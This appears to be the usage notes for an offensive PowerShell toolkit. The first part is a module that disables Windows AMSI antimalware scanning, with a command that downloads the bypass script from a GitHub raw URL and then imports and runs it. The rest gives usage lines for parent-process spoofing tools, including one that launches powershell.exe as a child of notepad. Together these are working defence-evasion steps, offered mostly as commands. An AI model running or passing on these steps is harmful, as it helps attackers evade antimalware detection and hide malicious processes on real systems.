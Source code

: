 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

---




[admin] .\SelectMyParent.exe <process-to-use> <pid-to-spoof>
[admin] .\SelectMyParent.exe notepad 32
spawn notepad.exe using id 32 (calculator)


[admin] spoof.exe pentestlab.exe 1116


[User Land]
#Spawns a notepad.exe process as a child of the current process.
Start-ATHProcessUnderSpecificParent -ParentId $PID -FilePath notepad.exe

#Spawns a notepad.exe process as a child of the first explorer.exe process.
Get-Process -Name explorer | Select-Object -First 1 | Start-ATHProcessUnderSpecificParent -FilePath notepad.exe

#Creates a notepad.exe process and then spawns a powershell.exe process as a child of it.
Start-Process -FilePath $Env:windir\System32\notepad.exe -PassThru | Start-ATHProcessUnderSpecificParent -FilePath powershell.exe -CommandLine '-Command Write-Host foo'
